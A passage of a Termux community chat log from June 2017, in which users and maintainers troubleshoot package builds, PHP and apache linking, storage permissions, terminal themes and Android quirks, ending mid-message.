2017-06-11 09:05:37	gitter1	(vishalbiswas) and one with a youtube link?

2017-06-11 09:06:10	bob___	oh

2017-06-11 09:06:13	bob___	yes that makes sense

2017-06-11 09:06:31	bob___	https://www.youtube.com/feeds/videos.xml?user=EvanKale91

2017-06-11 09:06:32	bob___	haha

2017-06-11 09:14:21	gitter1	(vishalbiswas) bob___: try this `macro y set browser "youtube-dl %u"; open-in-browser ; set browser "elinks %u"`

2017-06-11 09:15:34	bob___	interesting, so the culprit might be those sneaky quotes

2017-06-11 09:15:50	bob___	thx trying that

2017-06-11 09:16:22	bob___	not copying the ` right?

2017-06-11 09:18:54	gitter1	(vishalbiswas) bob___: yes do not copy \`

2017-06-11 09:19:06	bob___	oh the culprit was open-in-browser

2017-06-11 09:21:51	bob___	this is wierd cause on the desktop version "open" works still, it's good to know, thanks a lot vishalbiswas!

2017-06-11 09:22:17	gitter1	(vishalbiswas) thank archwiki, it was copy pasta

2017-06-11 09:22:49	bob___	https://wiki.archlinux.org/index.php/Newsbeuter

2017-06-11 09:22:52	bob___	yeah i'm reading it now

2017-06-11 09:23:18	bob___	i didn't think my desktop config could be wrong, i used it for at least 5 years without a problem

2017-06-11 09:23:36	bob___	i should have searched there right away to see if some commands were deprecated

2017-06-11 09:25:20	gitter1	(vishalbiswas) bob___: your desktop one may have worked because you have some other weird configs?

2017-06-11 09:30:40	bob___	now that i think about it, it worked on my desktop but might have stopped working too, i just didn't notice

2017-06-11 09:30:54	bob___	release notes for newsbeuter are hard to find

2017-06-11 09:31:05	bob___	https://github.com/akrennmair/newsbeuter/releases no info, their blog dates from 2013 :/

2017-06-11 09:36:51	bob___	see the doc still use "open" instead of "open-in-browser" https://newsbeuter.org/doc/newsbeuter.html#_macro_support

2017-06-11 16:58:24	gitter1	(fornwall) the NDK used to build termux packages has been updated to the newly released r15! update docker images with `./scripts/update-docker.sh`

2017-06-11 16:59:25	gitter1	(fornwall) it still uses the deprecated, non-unified headers - transitioning to unified headers is the next step

2017-06-11 17:01:50	gitter1	(fornwall) also, the transition to libc++ (that is, a fully functional&updated c++ library) still remains - it may have to wait for NDK r16, as the NDK developers pushed back official support for it (once again..)

2017-06-12 07:17:09	fornwall	about newsbeuter: there seems to be a problem with putting out a new release, due to the original developer owning the newsbeuter.org domain not being available anymore

2017-06-12 07:17:10	fornwall	https://github.com/akrennmair/newsbeuter/issues/525

2017-06-12 07:17:52	fornwall	I asked about packaging up latest master instead as there is active development still happening, and it seems ok

2017-06-12 07:17:59	fornwall	any newsbeuter user being for or against it?

2017-06-12 07:26:35	frumpylava	I'm for it. Rather build from master than it becoming a patched and backported mess.

2017-06-12 08:28:49	frumpylava	fornwall: Wow, look at you tackling all these issues :)

2017-06-12 09:58:31	gitter1	(DemoPBTL) Привет народ

2017-06-12 09:59:20	gitter1	(DemoPBTL) Я может не по теме.... помогите советом пожалуйста.

2017-06-12 10:00:20	gitter1	(DemoPBTL) Тема такая, стоит на Android ruby, как запустить с termux его

2017-06-12 10:00:45	gitter1	(DemoPBTL) Впервые просто столкнулся и с рубином и termux

2017-06-12 10:11:24	gitter1	(noncom) guys, what happened to Termux boot? I can't find it on Google Play...

2017-06-12 10:12:24	frumpylava	@noncom It wasn't ever released. I think it's just not finishded/working yet.

2017-06-12 10:28:07	gitter1	(noncom) @DemoPBTL  you can install Ruby in Termux just as any other Termux package and use it as you would normally do in a linux

2017-06-12 10:28:22	gitter1	(noncom) @DemoPBTL  it is among the available packages: https://github.com/termux/termux-packages/tree/master/packages

2017-06-12 10:33:49	gitter1	(DemoPBTL) Спасибо, пойду попробую))

2017-06-12 12:46:55	Waples_	hello

2017-06-12 12:46:58	Waples_	anyone here?

2017-06-12 12:49:00	gn0me	yo

2017-06-12 12:49:04	gn0me	got a crash using tmux

2017-06-12 12:49:45	gn0me	any of you use this on 'termux' thingymajig on a daily basis ?

2017-06-12 12:54:47	gn0me	nobody?

2017-06-12 12:56:51	gn0me	clear

2017-06-12 12:57:38	gitter1	(vishalbiswas) gn0me: ?

2017-06-12 12:58:19	gn0me	using termux atm, bit unstable at times

2017-06-12 12:58:48	gitter1	(vishalbiswas) like?

2017-06-12 13:07:05	escogido_	I would like to respond to volume up/down buttons in an app running in termux. Any ideas? Timing and length of time held are important to me.

2017-06-12 13:07:41	escogido_	I can see the info I need in logcat via a Termux related logging message...

2017-06-12 13:16:29	gitter1	(vishalbiswas) escogido_: there's no support for it yet. all android user activities are interfaced by termux api and it has a significant latency. you can implement it there if you're up for it

2017-06-12 13:22:14	escogido_	gitter1: thanks, so maybe capture events and timings from Java/API side and then forward on as a stream of event data say via termux-key-events command line?

2017-06-12 13:22:55	escogido_	by termux-key-events I mean a new command I would implement to receive the events from the Java side of things.

2017-06-12 13:24:08	escogido_	if I had root I would just open /dev/input<something> and be good. But I'm not pursuing that.

2017-06-12 13:38:46	gitter1	(noncom) I have a EACCESS permission error when trying to save something from Termux to the /sdcard/Download folder

2017-06-12 13:38:51	gitter1	(noncom) does anyone know how to remedy that?

2017-06-12 13:47:10	escogido_	Isn't there a ~/storage/shared folder for that?

2017-06-12 13:55:51	gitter1	(noncom) probably there is, but I am trying to compile the buildAPKs project as stated in the official instruction here: https://sdrausty.github.io/buildAPKs/reallyEasilyBuildAndroidAPKsOnDevice

2017-06-12 13:56:05	gitter1	(noncom) and it fails on that particular stage

2017-06-12 13:56:27	gitter1	(noncom) and I think it implies that the folder should be accessible

2017-06-12 13:56:57	gitter1	(noncom) and actually the Download folder *is* the one that is accessible from other programs since saving there usually brings up no issues

2017-06-12 14:25:14	rods-tab3	did you read  https://termux.com/storage.html

2017-06-12 14:26:14	rods-tab3	that url should be in /topic since most often ? here

2017-06-12 14:29:22	gitter1	(noncom) @rods-tab3 yeah, I've read it and did as it said, I've run the latest version of `termux-setup-storage`

2017-06-12 14:31:14	phil42	i am liking the EasilyBuildAndroidAPKsOnDevice real good

2017-06-12 14:43:14	gitter1	(noncom) phil42 truly so

2017-06-12 14:54:19	phil42	it could be termux's killer app

2017-06-12 16:25:00	gitter1	(noncom) the ultimate mission

2017-06-12 18:13:44	u0_a931	phil42: It is great to hear you like https://sdrausty.github.io/buildAPKs/reallyEasilyBuildAndroidAPKsonDevice

2017-06-12 18:17:14	phil42	i was surprised when it worked

2017-06-12 22:30:18	gitter1	(vishalbiswas) live_the_dream: I updated the x11 branch. I had to add libmesa to get glx working

2017-06-13 04:14:42	frumpylava	@vishalbiswas is there any update on mariadb for arm?

2017-06-13 04:21:57	gitter1	(vishalbiswas) frumpylava: we still aren't using unified headers, more exciting news arrives after we make the switch

2017-06-13 04:48:24	frumpylava	@vishalbiswas, that sucks. :/

2017-06-13 06:51:53	live_the_dream_s	@vishabiswas running good ole fluxbox

2017-06-13 07:09:34	live_the_dream_s	messing about with tcltk demo stuff hehe

2017-06-13 07:20:49	gitter1	(vishalbiswas) live_the_dream_s: fluxbox is probably better for termux

2017-06-13 07:59:48	BrainDamage	what are you using to forward the video to android? vnc?

2017-06-13 08:01:04	gitter1	(vishalbiswas) BrainDamage: yes, tigervnc on termux to render, then another app (bVnc) to interact

2017-06-13 08:16:29	frumpylava	@vishalbiswas I rebuilt my php with mysqli support after merging your changes about php-apache. Now I get PHP Warning:  PHP Startup: Unable to load dynamic library '/data/data/com.termux/files/usr/lib/php/pdo_pgsql.so' - dlopen failed: library "libaprutil-1.so.0" not found in Unknown on line 0

2017-06-13 08:17:23	gitter1	(vishalbiswas) frumpylava: shit. can you use php without it?

2017-06-13 08:18:02	frumpylava	@vishalbiswas yes. I just can't load any extensions

2017-06-13 08:18:38	gitter1	(vishalbiswas) frumpylava: looks like pdo_pgsql wants to take this opportunity to link itself against apr-util, will need to add -lapr-util-1 to pgsql

2017-06-13 08:19:05	frumpylava	@vishalbiswas I also can't install apr because it says "dpkg: error processing archive /data/data/com.termux/files/usr/var/cache/apt/archives/apache2_2.4.25_aarch64.deb (--unpack):

2017-06-13 08:19:07	frumpylava	 trying to overwrite '/data/data/com.termux/files/usr/etc/apache2/httpd.conf', which is also in package php 7.1.6

2017-06-13 08:20:00	gitter1	(vishalbiswas) frumpylava: `apr != apache`

2017-06-13 08:21:02	frumpylava	ah, yeah sorry. apache.

2017-06-13 08:22:30	frumpylava	@vishalbiswas, I get the linker error for all extensions, by the way, not just pgsql.

2017-06-13 08:24:44	gitter1	(vishalbiswas) frumpylava: a quick fix would be to add `LDFLAGS="$LDFLAGS -lapr-1 -laprutil-1"` in preconfigure

2017-06-13 08:25:15	gitter1	(vishalbiswas) anyways this is real weird, it didn't happen to me on arm, though

2017-06-13 08:25:35	gitter1	(vishalbiswas) can you build only php-apache, without php-mysql and see whether it still happens

2017-06-13 08:25:49	gitter1	(vishalbiswas) maybe its a 7.1.6 issue

2017-06-13 08:31:05	gitter1	(vishalbiswas) frumpylava: an`strace -y -f -s 5012` of the command would help some

2017-06-13 08:33:46	frumpylava	@vishalbiswas https://glow.li/share/strace.out

2017-06-13 08:34:50	gitter1	(vishalbiswas) frumpylava: looks like I didn't get the issue because I had aprutil installed

2017-06-13 08:36:10	frumpylava	@vishalbiswas can confirm, installing apr-util fixes the problem.

2017-06-13 08:37:13	frumpylava	So, there is no need for the LDFLAGS. apr-util just needs to be listed a dependency of php

2017-06-13 08:39:05	gitter1	(vishalbiswas) or php needs to be exorcised of aprutil

2017-06-13 08:39:19	gitter1	(vishalbiswas) sorry, too much horror novels

2017-06-13 08:48:27	frumpylava	So, stop php from packaging etc/apache2 and also depend of apr-util (or don't link against it)

2017-06-13 08:54:56	gitter1	(vishalbiswas) frumpylava: that config issue is entirely new

2017-06-13 08:56:37	frumpylava	Well, it shouldn't have come from my mysql packaging...

2017-06-13 08:58:47	frumpylava	@vishalbiswas you were the one who introduced apache to all of this. ;)

2017-06-13 09:00:21	gitter1	(vishalbiswas) i'll fix it tonight

2017-06-13 09:02:13	solid_boy	Hi..

2017-06-13 09:02:15	frumpylava	@vishalbiswas, no hurry, (at least not for my sake, I don't actually use apache, so I don't really care) it looks like it hasn't been deployed yet (possibly because you didn't bump the version of php)

2017-06-13 09:02:45	frumpylava	solid_boy: Hi!

2017-06-13 09:02:59	solid_boy	Need help

2017-06-13 09:04:41	solid_boy	Not work apt update

2017-06-13 09:06:23	solid_boy	Reading package lists... Done

2017-06-13 09:06:25	solid_boy	E: Failed to fetch http://termux .net/dists/stable/main/binary-arm/Packages.xz  Hash Sum mismatch

2017-06-13 09:06:25	solid_boy	E: Some index files failed to download. They have been ignored, or old ones used instead.

2017-06-13 09:08:46	frumpylava	solid_boy that seems to happen occasionally. Something about cloudflare. Try again later.

2017-06-13 09:09:01	frumpylava	@fornwall You need to do something to cloudflare to make it work again, right?

2017-06-13 09:16:26	solid_boy	apt clean && apt update

2017-06-13 09:16:44	solid_boy	Not working

2017-06-13 09:17:17	gitter1	(vishalbiswas) solid_boy: it won't. server side problem.

2017-06-13 09:17:30	solid_boy	Oh...

2017-06-13 09:17:43	solid_boy	Ok

2017-06-13 09:18:39	gitter1	(vishalbiswas) solid_boy: if you are feeling lucky, you can manually download and install deb files from http://termux.net/dists/stable/main/

2017-06-13 10:22:58	fornwall	solid_boy & frumpylava: I purged the cloudflare cache, does it work now?

2017-06-13 13:49:00	frumpylava	@vishalbiswas Finally have time to test dovecot, but I get CANNOT LINK EXECUTABLE "dovecot": library "libdovecot.so" not found

2017-06-13 15:06:45	gitter1	(francmarx) hello, anybody here?

2017-06-13 17:32:42	gitter1	(fornwall) @vishalbiswas about php linking to libapr and libapr-util a bit too much, is that caused by the first part of https://github.com/termux/termux-packages/blob/master/packages/php/sapi-apache2handler-config.m4.patch ?

2017-06-13 17:34:00	gitter1	(fornwall) I guess libexec/apache2/libphp7.so needs to link with libapr due to https://github.com/android-ndk/ndk/issues/201,  but it seems to affect too much at the moment?

2017-06-13 18:45:33	gitter1	(fornwall) @francmarx hello :)!

2017-06-13 19:03:07	rods-tab3	termux updated new version

2017-06-13 20:10:33	sielicki	I've been using termux on a chromebook, it's a pretty good experience. The terminal lags behind if you have a lot of output, some kind of better buffering is needed. But other than that, it's really a great alternative to crouton if you don't need any x11.

2017-06-13 20:11:22	sielicki	One issue I've noticed is that chromeos will eat a lot of key combinations. For example, C-n will open a new chrome window rather than pushing that through to termux.

2017-06-13 20:11:56	sielicki	I was looking through the documentation for android on chromeos, I couldn't find anything specific that talked about this. I think it's just a few lines that need to be added to the manifest.

2017-06-13 20:13:23	sielicki	Outside of that, better mouse support for termux would be nice-- not because I'm expecting to using the mouse on the terminal (like scrollwheel to scroll in vim, etc.) but rather, clicking anywhere opens the same menu that is opened on a phone when you tap.

2017-06-13 20:13:49	sielicki	It would be better if, when a mouse clicks, it selects text like on any desktop terminal emulator.

2017-06-13 22:46:30	AmR|EiSa	Hello

2017-06-13 22:47:22	gitter1	(vishalbiswas) AmR|EiSa: hi

2017-06-13 23:07:36	gitter1	(vishalbiswas) frumpylava: I have created https://github.com/termux/termux-packages/pull/1084 to fix the issues related to php-apache. please  check and tell whether they are resolved

2017-06-13 23:20:47	gitter1	(vishalbiswas) about dovecot, I'll upload another build shortly

2017-06-13 23:26:17	gitter1	(mklein994) @its-pointless I've been ~learning~ trying to learn rust. Thanks for the package, and for including rust docs! It makes it easier to learn when I don't have WiFi.

2017-06-13 23:33:50	AmR|EiSa	I need to work with Qt in mobile can I do that with termux ?

2017-06-13 23:34:55	gitter1	(vishalbiswas) AmR|EiSa: not yet. It has been requested a couple of times though. can you create a package request at https://github.com/termux/termux-packages/issues?

2017-06-13 23:35:36	gitter1	(vishalbiswas) currently, its customizations for android prevent it from adding even the cli packages

2017-06-13 23:47:07	AmR|EiSa	Core part from Qt is cli too, like wxbase.

2017-06-13 23:47:28	AmR|EiSa	gitter1: ^

2017-06-14 01:02:56	AmR|EiSa	Did termux have gui text editor?

2017-06-14 01:11:16	gitter1	(vishalbiswas) no

2017-06-14 01:11:25	gitter1	(vishalbiswas) nothing gui

2017-06-14 01:35:02	AmR|EiSa	Can I use clange from other editor ?

2017-06-14 06:10:38	frumpylava	Is there any way I can disable sshd and other services from binding to my rmnet_data0 (mobile data) and only respond to wlan0?

2017-06-14 07:39:51	quite	Yow! termux:widget very cool. Is there a way to not have the termux session staying around after script is done? I do like to see the output from my rsync backup, and pressing enter is fine, just the session residue is annoying..

2017-06-14 08:15:47	BrainDamage	frumpylava: you can bind using listenaddress, but afaik you can only specify address ranges rather than interfaces, which kind of suck

2017-06-14 08:19:13	gitter1	(vishalbiswas) or you can use wrappers instead of the real binaries which will just look up your address on a particular interface and execute the underlying daemon with it

2017-06-14 08:19:21	frumpylava	BrainDamage: So I would have to set that to whatever my current IP in the WiFi?

2017-06-14 08:19:57	BrainDamage	you can put there address ranges

2017-06-14 08:21:49	BrainDamage	as a kludge you could listen to typical link local addresses such as 192.168/16 and 10./8 and 169.254/16 and that should cover essentially all the lans

2017-06-14 08:22:59	BrainDamage	I really dislike how most software doesn't let you bind by interface, the most common use case is roaming ip,not static

2017-06-14 08:26:57	frumpylava	BrainDamage: Thanks.

2017-06-14 08:28:45	BrainDamage	oh and don't forget to add localhost

2017-06-14 13:29:34	kr1shna	there is no termux folder on my sdcard, is this normal ?

2017-06-14 13:31:56	kr1shna	i mean /storage/emulated/0

2017-06-14 13:38:44	quite	kr1shna: Yeah. I found that you have to go info settings,apps,termux,permission and give it Storage permission, then it'll appear

2017-06-14 13:38:48	quite	to go into

2017-06-14 13:42:12	kr1shna	quite: i dont have option for storage permission, i am on android 5.1

2017-06-14 13:43:06	kr1shna	otherwise should i run termux-setup-storage

2017-06-14 13:43:29	kr1shna	as given in help files

2017-06-14 14:09:23	krttrn	I don't see my sd card in the shared folder

2017-06-14 18:40:23	gitter1	(fornwall) @vishalbiswas I still got problems with libapr and libapr-util being linked to too much even after https://github.com/termux/termux-packages/pull/1084. I made a new attempt at https://github.com/termux/termux-packages/commit/af997cb536c9e599411a887a6a02b010e2db1119

2017-06-14 18:41:52	gitter1	(fornwall) the built `php-apache` package from that change has just been pushed to the package repo - does it work for you?

2017-06-14 20:15:14	sdrausty	Just published from Termux https://plus.google.com/communities/101692629528551299417

2017-06-14 20:16:35	sdrausty	Days at the South Pole https://m.youtube.com/watch?list=PLJ6pP26JOyIN7tho_Y3IUADTt6mTZ94Ag&v=Bj_eZ5dlBkI from Termuxed

2017-06-14 22:10:02	gitter1	(chadmpaul) hello!  termux noob here probably to ask the same question again.  looks like I have storage as setup as all guides show.  I can create text files without issue.  trying to do npm and it bombs out with a permission error.  Unhandled rejection Error: EACCES: permission denied, link '/data/data/com.termux/files/home/.npm/_cacache/tmp/2be2e530' ->

2017-06-14 22:10:02	gitter1	'/data/data/com.termux/files/home/.npm/_cacache/content-v2/sha512/93/80/cc6bcea9a27632a03418e60117e05fed8ada3363bc4a2ff87c188e682ce02d433f68fc00a33d73206e4d0161f34b4aba4a168ba53f596f52e84ec1e862e3'

2017-06-14 22:41:54	gitter1	(vishalbiswas) @fornwall Its working

2017-06-15 01:24:42	gitter1	(fornwall) @vishalbiswas great!

2017-06-15 03:00:17	frumpylava	We should have our own logo for screenfetch and neofetch ;)

2017-06-15 03:14:05	live_the_dreams	a picture of a terminal

2017-06-15 03:14:13	live_the_dreams	in a terminual?

2017-06-15 03:15:15	frumpylava	I think the termux icon is a good app icon, but maybe we a dedicated logo?

2017-06-15 03:15:19	frumpylava	live_the_dreams: Can you draw?

2017-06-15 03:15:25	live_the_dreams	no

2017-06-15 10:01:37	bob____	hi

2017-06-15 10:03:46	bob____	is it possible to change the theme of termux via the command line? i see the settings are stored in ~/.termux/colors.properties but how do i reload it if i edit it?

2017-06-15 10:08:06	BrainDamage	you can change the terminal palette on the fly with escape codes

2017-06-15 10:08:26	BrainDamage	bonus points it works for other TE too when you connect trough ssh

2017-06-15 10:08:36	BrainDamage	eg using https://github.com/mkoskar/tcolors

2017-06-15 10:12:50	bob____	thanks BrainD

2017-06-15 10:13:11	bob____	is it temporary or does tcolors update them for the next sessions as well?

2017-06-15 10:14:59	BrainDamage	temporary, but you can eg call it from your shell's rc file

2017-06-15 10:15:15	bob____	yes ok thanks :)

2017-06-15 10:15:34	bob____	i see it's not available via pip in termux

2017-06-15 10:15:47	bob____	you cloned the git?

2017-06-15 10:15:58	BrainDamage	it's literally 1 file you need

2017-06-15 10:16:30	BrainDamage	wget https://raw.githubusercontent.com/mkoskar/tcolors/master/bin/tcolors.py; chmod +x tcolors.py

2017-06-15 10:16:31	BrainDamage	done

2017-06-15 10:17:05	bob____	awesome :)

2017-06-15 10:17:09	bob____	do you use it as well?

2017-06-15 10:17:15	BrainDamage	yes

2017-06-15 10:17:37	bob____	termux is amazing

2017-06-15 10:17:56	BrainDamage	I roam terminals and it lets me keep a consistent look across them without having to muck with the config

2017-06-15 10:18:30	BrainDamage	I only wish there was one ansi escape code for font selection too

2017-06-15 10:18:52	bob____	i was thinking about that tcolors to switch between light and dark schemes

2017-06-15 10:19:29	BrainDamage	you can do that fine, just write 2 x resources files then load the appropriate one

2017-06-15 10:19:41	bob____	what are your fav colorscheme you use in termux?

2017-06-15 10:19:52	BrainDamage	my own

2017-06-15 10:23:48	bob____	thanks for everything

2017-06-15 13:25:23	guest_____	888

2017-06-15 16:03:33	gellmar	Hi! Is the author of tsu available here? There are pull requests,pending + I'd like to add one more but the development seems abandoned

2017-06-15 20:41:21	u0_a453	quit

2017-06-16 15:24:48	MaxplayBR	Ola

2017-06-16 15:24:52	MaxplayBR	Hello

2017-06-16 15:25:43	kspencer	Is there a chance of 'ddate' being ported to termux?

2017-06-16 15:26:30	MaxplayBR	I Speak From Brasil

2017-06-16 16:14:21	Redoubtable	Hi, I'm having trouble setting up the ssh server; I actually have it running, but not in the securest mode; van anyone provide step by step procedure for setup? Thanks

2017-06-16 16:40:51	Redoubtable	Hello, I'm new to the Termux IRC community, but I'm pleased to be here. I left a message about setting up the Termux ssh server; as I am very new to this technology, I require the knowledge and expertise of superusers. To reiterate, would it be possible to for provision of a procedure for the implementation of the server?

2017-06-16 19:48:01	AmR|EiSa	Hello

2017-06-16 19:48:02	AmR|EiSa	Can I use clange from other editor ?

2017-06-16 23:32:26	gitter1	(mklein994) Redoubtable: lots of big words, but not enough substance . What are you really trying to do? What steps have you tried?

2017-06-16 23:33:46	gitter1	(mklein994) kspencer: I managed to compile dateutils on `arm`. What architecture do you have?

2017-06-16 23:34:48	kspencer	arm?

2017-06-16 23:36:11	kspencer	Yeah its arm

2017-06-16 23:37:17	gitter1	(mklein994) bob____: simply run `termux-reload-settings`. (You may need `termux-tools` installed, both the Play Store app and from `apt`.)

2017-06-16 23:49:06	gitter1	(mklein994) I was just looking, and I realized I must have lost it after reformatting my phone. I remember it wasn't too hard to find the compiler options for it though.

2017-06-17 00:47:01	u0_a3_	Quit

2017-06-17 11:58:06	gitter1	(gscacco) Hi, I've installed Termux on xiaomi redmi note 2. When I run some (not all !) termux api command can't get any result. The command is blocked waiting for something and I have to kill them with Ctrl-c. Can you hep me ? Thanks

2017-06-17 12:52:38	gitter1	(gscacco) And some commands are extremely slow. For example:

2017-06-17 12:52:42	gitter1	(gscacco) ```

2017-06-17 12:52:55	gitter1	(gscacco) time termux-info

2017-06-17 12:53:11	gitter1	(gscacco) real 0m30.184s

2017-06-17 14:51:24	rods-tab3	yes about right for the time

2017-06-17 16:23:08	paradigm	Occasionally, after some hours or days, I find termux died.  Presumably Android killed it.  I found that keeping a terminal open so the slide-down from the top shows a bar for Termux seems to help but is not sufficient to keep Android from ever killing termux.  In contrast, I've never seen Tasker disappear on me.  Is there something I could do to keep Termux alive like Tasker appears to be?  I've got some

2017-06-17 16:23:14	paradigm	 cron jobs that I've found I can't rely on if Termux dies overnight or while my phone is in my pocket.

2017-06-17 16:40:03	rods-tab3	its an android feature - throws stuff into standby/sleep mode

2017-06-17 16:48:48	rods-tab3	try:   termux-wake-lock --help

2017-06-17 17:24:19	paradigm	the-solipsist: thanks!

2017-06-17 17:24:22	paradigm	err

2017-06-17 17:24:26	paradigm	rods-tab3: thanks!

2017-06-17 17:24:37	paradigm	nick tab completion is difficult -.-

2017-06-17 17:26:03	rods-tab3	computers is hard

2017-06-17 17:26:10	paradigm	agreed

2017-06-17 20:03:32	kspencer	I don't have the username, but the person that answered me yesterday with 'dateutils', d-date - the - discordian date, under util-linux or so

2017-06-17 20:03:54	kspencer	usually you have to build it with --enable-ddate

2017-06-17 20:04:28	kspencer	or its supposedly in the regular repos as ddate as well

2017-06-18 00:21:17	gitter1	(vishalbiswas) @fornwall do you have any scriptlets to handle building or validate built packages?

2017-06-18 14:56:09	gitter1	(fornwall) @vishalbiswas yes, I have one that checks some things in built packages

2017-06-18 14:56:14	gitter1	(fornwall) - a file shouldn't exist in multiple packages (unless the packages conflict with eachother)

2017-06-18 14:56:14	gitter1	(fornwall) - man pages should be under $PREFIX/share/man

2017-06-18 14:56:14	gitter1	(fornwall) - that shared libraries that are linked in are found in the dependencies of the package

2017-06-18 14:56:14	gitter1	(fornwall) - that some aspects of elf files are correct

2017-06-18 14:56:56	gitter1	(fornwall) I'll look at publishing it, as especially the scan of all elf files to find all linked shared libraries are useful

2017-06-18 15:04:16	gitter1	(fornwall) I've just pushed the start of the transition to unified headers

2017-06-18 15:04:44	cottongin	new chromebook android update seems to have broken scrolling/touch in termux

2017-06-18 15:07:14	gitter1	(fornwall) using unified headers is only for preview experimentation at the moment, export `TERMUX_UNIFIED_HEADERS=1` before building to use it

2017-06-18 15:08:31	gitter1	(fornwall) this sets up a standalone toolchain with the new unified headers  (https://android.googlesource.com/platform/ndk/+/master/docs/UnifiedHeaders.md) and patches it using the new `ndk_patches_unified/` folder (instead of the current `ndk_patches/` folder used for the non-unified headers)

2017-06-18 15:10:47	fornwall	cottongin: thanks for reporting, I

2017-06-18 15:11:01	fornwall	should really get a chromebook to test things out

2017-06-18 15:11:16	cottongin	it might just be tmux it seems to work fine out of tmux

2017-06-18 15:13:20	cottongin	but there's definitely some odd behavior going on

2017-06-18 15:20:29	fornwall	cottongin: hm, just to be sure, can you verify that you are running latest tmux (-V should show 2.5), and try with a clean config (temporary move away ~/.tmux.conf)?

2017-06-18 15:21:51	cottongin	fornwall: to be clear, sorry, meant tmux on my remote box i'm ssh'd into from termux

2017-06-18 15:22:15	cottongin	well, mosh'd

2017-06-18 15:22:32	cottongin	i wonder if mosh is being weird

2017-06-18 15:22:52	cottongin	when i scroll sometimes it is sending garbage, maybe key codes, to the terminal

2017-06-18 15:22:59	cottongin	0;74;-10m32;71;-19M32;71;-20M32;71;-20M32;71;-20M0;71;-20m

2017-06-18 15:23:00	cottongin	like that

2017-06-18 15:24:04	cottongin	well it's not mosh

2017-06-18 15:24:29	gitter1	(fornwall) do you have mouse enabled in tmux on the remove box?

2017-06-18 15:25:05	cottongin	i do

2017-06-18 15:25:37	cottongin	it worked yesterday, and today there was an android upgrade for my chromebook (asus c302ca)

2017-06-18 15:25:44	cottongin	and now it doesn't work

2017-06-18 15:25:52	cottongin	so i assumed it was related to the update

2017-06-18 15:27:03	cottongin	i should upgrade tmux though, i'm on 2.1 on the remote box

2017-06-18 15:44:24	cottongin	upgraded to 2.5

2017-06-18 15:44:30	cottongin	no change

2017-06-18 19:14:53	live_the_dreams	ooooo unified

2017-06-18 19:21:16	live_the_dreams	anyway cottongin sometines that happens to me and i have to restart the shell tmux. not all of windowz in tmux just that one

2017-06-19 05:44:56	IRC-Source_79321	Hey

2017-06-19 05:52:30	xunl355x	Hey

2017-06-19 05:52:48	xunl355x	I want asking something

2017-06-19 06:30:53	paradigm	xunl355x: go ahead and ask

2017-06-19 06:57:37	m4sk1n	fornwall: ping

2017-06-19 07:27:32	m4sk1n	does termux support l10n?

2017-06-19 08:40:52	gitter	(mklein994) kspencer: oh… `ddate`. I got that confused with `ddiff`. In that case, I can't help you there, sorry.

2017-06-19 11:20:11	frumpylava	Is running a process in a proot jail actually slower than running natively? My tests are inconclusive.

2017-06-19 12:18:32	gitter	(vishalbiswas) frumpylava: filesystem intensive programs will be much more slower than others

2017-06-19 14:24:13	paradigm	frumpylava: while I've not done any serious investigation into it, from what I understand ptrace (and thus, proot) adds overhead only on system calls.  General execution should be uneffected, but if you're doing some system call in a tight loop (which should normally be avoided for performance reasons anyways), I'd expect a proot contained progress to be slower.

2017-06-19 14:35:39	paradigm	frumpylava: https://gist.github.com/paradigm/75b5195c68b146c2252836499e9d22c5

2017-06-19 14:36:20	paradigm	seems pretty definitive that there is a decent chunk of system call overhead

2017-06-19 15:14:33	frumpylava	paradigm, @vishalbiswas: yeah, that seems considerable. I am running my mariadb and my nginx in a proot jail (each) and I was wondering if there was some kind of performance hit.

2017-06-19 15:17:14	doomsday101	hello

2017-06-19 15:20:11	kspencer	@mklein994 seems 'gem install rubysl-parsedate ddate' does well enough, though I'll have to do some configuring of my own

2017-06-19 16:27:24	fornwall	m4sk1n: no, no translation of the (few strings) in the app itself, and packages are also generally built without support for multiple languages

2017-06-19 16:28:10	m4sk1n	ok

2017-06-19 16:29:31	m4sk1n	also, what about making use of Broadcast Tile from QuickSettings in Termux:Float instead of statusbar entry?

2017-06-19 22:07:28	enedil	Hi

2017-06-19 22:07:36	enedil	can I change the font size in termux?

2017-06-19 22:09:35	rods-tab3	squeeze two fingers - draw apart to increase, together to decrease font size

2017-06-19 22:11:21	u0_a94	rod-yolo: I'm enedil from termux from weechat, yay!

2017-06-19 22:11:37	u0_a94	that's just excellent

2017-06-19 22:12:16	u0_a94	some time before, I even paid for an app that gave me c++ compiler on android

2017-06-19 22:16:17	rods-tab3	iirc termux has clang; not sure if its c++

2017-06-19 22:17:27	u0_a94	yes it has

2017-06-19 22:17:38	u0_a94	albeit available in repos

2017-06-19 22:18:13	u0_a94	in fact I revived my old android tablet just to learn ARM assembly

2017-06-20 11:05:11	exarch	I seem to see a problem with the newest neovim package. is this the right place to discuss this?

2017-06-20 11:18:27	enedil	exarch: I believe so

2017-06-20 11:18:33	enedil	what's the problem?

2017-06-20 11:19:37	exarch	well, i tried to use the remote netrw on the latest neovim and it spits out tons of errors. It's rather hard for me to diagnose

2017-06-20 11:19:55	exarch	the command I used is of the form:

2017-06-20 11:20:08	exarch	:e scp://host//path/file.txt

2017-06-20 11:49:48	gitter	(noncom) is there a way to stop Termux from vibrating when I am erasing from a command line and there's nothing to erase?

2017-06-20 11:50:36	gitter	(noncom) just when I Termux at night, among the sleeping ones, their ears get irritated and their mind awakens to the buzzing of Termux

2017-06-20 11:50:40	gitter	(noncom) I want to prevent that

2017-06-20 11:50:58	gitter	(noncom) that places my mission under a risk

2017-06-20 11:51:01	gitter	(noncom) I want to prevent that

2017-06-20 11:52:45	rods-tab3	dont erase

2017-06-20 11:55:58	gitter	(noncom) but I can't...

2017-06-20 11:56:15	gitter	(noncom) it just happens on that and some other occasions

2017-06-20 11:57:21	gitter	(noncom) the vibration

2017-06-20 12:05:39	frumpylava	@noncom https://termux.com/configuration.html See "Handling the Bell character"

2017-06-20 12:17:15	sdrausty	https://youtu.be/ufIvYFpgsoE

2017-06-20 12:18:25	sdrausty	About to be published from Termux;

2017-06-20 12:25:25	sdrausty	Comments please...

2017-06-20 12:42:16	rods-tab3	bad url

2017-06-20 12:53:23	m4sk1n	what about ipython package?

2017-06-20 13:02:46	Regenaxer	Hi all! Since Android 7 I noticed that the LED in 'termux-notification --id 7 ... --led-color 00FF00' does not work any longer

2017-06-20 13:02:49	Regenaxer	Anybody observed similar problems?

2017-06-20 13:17:25	enedil	m4sk1n: why do you want ipython?

2017-06-20 13:18:19	enedil	m4sk1n: or maybe better question - why do you want ipython package?

2017-06-20 13:19:07	m4sk1n	I want ipython package to use ipython :P

2017-06-20 13:20:34	enedil	you ca

